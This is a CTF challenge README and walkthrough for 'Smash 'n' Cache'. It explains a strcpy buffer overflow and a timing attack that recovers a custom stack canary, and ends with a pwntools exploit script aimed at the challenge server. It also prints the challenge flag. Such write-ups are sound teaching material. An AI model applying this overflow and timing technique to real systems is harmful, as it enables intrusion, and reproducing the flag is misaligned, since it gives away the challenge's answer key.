






# Smash 'n' Cache

Repository for the CCC Smash 'n' Cache Challenge

## Flag
Flag: `CCCCTF{T1m3_t0_g3t_that_$$W!N$$_6549816874}`

## Briefing

Download the files at [url] and use them to get the flag from the network service on [ip] port: [port] to get the flag.

Hint: Brute force won't work.

By IlleQuiProgrammat.

## Infrastructure

 - 32-bit Binary
 - Host the download files
 - Service running with STDIN/STDOUT piped from/to the socket

## Risks
As the challenge does require you to technically overflow the buffer, this
has been limited to only being able to overwrite the `changeme` variable
rather than redirecting code execution.

# Walkthrough

## Challenge Overview

This challenge is a binary exploitation challenge where it is required to work out
the static stack canary on the remote host. This is achieved (in order to complete
it within a reasonable time) by using a timing attack. 

Challenge source code can be found here: https://github.com/IlleQuiProgrammat/CCC-Smash-n-Cache

## Timing Attack Intro

A timing attack is where an attacker is able to glean extra information about a
a program's secrets, inputs or variables leading to exploitation. They are so deadly
because you might have an otherwise secure algorithm (e.g. AES) but the way in which
it has been implemented can cause sesnitive data to be leaked. Other examples include
SQLite timing attacks which are performed by `sqlmap` automatically.

### 1. What does it do?
Firstly, we run the binary and are presented with the following
interface:


> The program asks us for a product code, importantly, N sets of 4 characters.

### 2. Assembly deep dive

Now we understand what the program is meant to do, we will take a look at the disassembly
in order to see how we could bypass this intended behaviour.

I'm using Radare Cutter but any disassembler will work. As you can see, there is a call
to `strcpy` which does not perform any bounds checks. Other interesting functions include:
`print_flag` and `secure_code_exec`.

It is important to note that we do not have the remote binary so `strings`'ing
the binary for the flag printed in the `print_flag` function will not help us.


> Program functions and imports.


### 3. Investigating program flow

We initially note that the main function calls `secure_code_exec` then returns - let's
have a look at this function.

We can see that a buffer is allocated on the stack and two values are set above that buffer.
`strcpy` writes to the buffer below these values, meaning that the values could be overwritten
if the string we are copying from is larger than our buffer (we will check in the next step).
Near the end of the function there is a suspicious call to `check_canary` (not the normal
canary checking function `__stack_chk_fail` - hence it is worth investigating). Finally, a local
variable is checked if it is equal to zero (`test eax, eax`). If it is, the program exits.
If it is not, then the program prints the flag then quits - our plan is to overwrite this value
so that the flag is printed.


> Disassembly of the `secure_code_exec` function.

### 4. Checking bounds on `strcpy` for buffer overflow:

`sub esp, 0x264` allocates 2 4-byte integers (a value after the buffer set to `0x11223344`
(appears to be the canary) and another set to `0` (a 'changeme') ) then we are left with
a `0x24e`-byte character buffer along with some other local variables. On the other hand,
the `read_input` reads in, using `fgets` so we can't have a buffer overflow, a `0x256` byte buffer:


> Disassembly of the `read_input` function

### 5. What does this mean?

This means we can overflow the buffer by 8 bytes (`0x256 - 0x24e`), clobbering both the
stack-canary and the `changme`.

### 6. Dealing with the stack canary

As we saw earlier this is not a normal stack canary - we can tell as it's a
constant value rather than from offset `0x28` of segment register `fs` and it also doesn't end in
a null byte (as many functions like `strcpy` end copying at a null byte meaning that no other values
would be overwritten past the canary).
Again, there is its own `check_canary` which is also not used on linux.

Let's have a look.

### 7. Analysing custom canary checking

The `check_canary` function pushes the individual bytes from the sample canary seen earlier
(`0x11223344`) on the stack in. It also does the same with the value
on the stack as seen by the `sar eax, 0x18` which will shift eax right by 24 bits,
leaving only 8 bits left. It then takes the lower byte with `al` and passes that
to the `check_equiv` function. This continues for each of the other bytes in the canary.


> Disassembly of the `check_canary` function

### 8. Working out the constant canary

Typically in a timing attack, there would not be an explicit `sleep()`, instead, something
would simply happen to take more time, but that's not particularly feasible in a CTF
environment nor does it address the main challenge.

The function delays for 5 seconds when the byte is greater and
only 2 seconds when it is less than. It does not sleep at all when the byte is equal.


> Disassembly of the `check_equiv` function

### 9. Exploitation

We cannot do a normal stack canary brute force as it would require us to be able to
enter a string that is not a multiple of 4 long and also without any null bytes.
This would also take too long - approximately `(256*4)*2 seconds` worst case (half that
for average case). We can, however, exploit the fact that if it is below it takes a
shorter length of time than if it is above. This allows us to binary search the bytes
of the canary. Although this doesn't affect the complexity of our algorithm (`O(log n)`),
it is important to note that one must perform the operation byte-by-byte. This will
take on average `3.5*8*4` seconds.

## Proof of Concept

For this I am using `pwntools` as it is a lot easier to switch between local and remote systems and
supplies many useful functions for writing exploits in general.

It is also done in python 2 so that unicode doesn't edit the bytes.

```py
from pwn import *
import time
import sys
known = []
# This stands for epsilon and is the difference in time that we will allow to be defined
# as no difference but merely an issue of network latency 
EPS = 0.25

# remote connection details
host = 'ccc-bh01.allyourbases.co'
port = 8132

# Parse command line options to see if we want to be local or remote
local = True
if len(sys.argv) >= 2:
    local = sys.argv[1] == 'local'

# Exploit timing wrapper which also provides some additional logging
def send_exploit(canary):
    try:
        print(canary)
        # get appropriate pwntools connection to binary
        p = None
        if local:
            p = process('./program')
        else:
            p = remote(host, port)
        p.recvuntil('\n') # read remote input
        p.sendline(248*"A" + canary) # buffer overflow the strcpy and overwrite the canary

        # time until the program quits
        start = time.time()
        p.recvuntil('terminated')
        p.close()
        return int(time.time() - start) # return the length of time in seconds
    except EOFError:
        # if the connection closed unexpectedly (i.e. we didn't recieve 'terminated')
        # then the program quit with the correct canary and we have the solution
        # the correct canary takes 0 seconds to check, hence why we return 0
        return 0 

# work out each byte in the canary
for i in range(4):
    # we measure the smallest length of time we can produce with the tool and use this as a reference
    baseline = send_exploit("".join(known) + "\x01" * (4 - len(known))) 
    print(baseline)
    min = 1
    max = 255
    while True:
        # Select the midpoint for binary search
        testing = (max + min) // 2
        print(testing)
        newtime = send_exploit("".join(known) + chr(testing) + "\x01" * (3 - i)) # time the exploit we have so far
        print(newtime)

        # checking if two times are equal when random latency is added is equivalent to checking if they differ
        # by a certain amount. Here it is the epsilon printed at the top of the file
        if abs(baseline - newtime) <= EPS: # If they are equal to the baseline (which is below), we are still below the canary byte
            min = testing 
        elif newtime > baseline: # If the time has gone up - we have gone higher than the canary value for that byte causing a 5s delay instead of a 2s delay
            max = testing
        else: # the time has decreased (no longer a 2s delay on the byte) we have the byte!
            known.append(chr(testing))
            print(testing)
            break

# output for debugging
print(known)
print([ord(c) for c in known])

# set up appropriate pwntools interface
p = None
if local:
    p = process('./program')
else:
    p = remote(host, port)
p.recvuntil('\n')
#send the correct canary and some extra data to clobber the changeme value
p.sendline(248*"A" + "".join(known) + "AAAA")
print p.recvuntil('}') # print the flag
p.close()
```
---
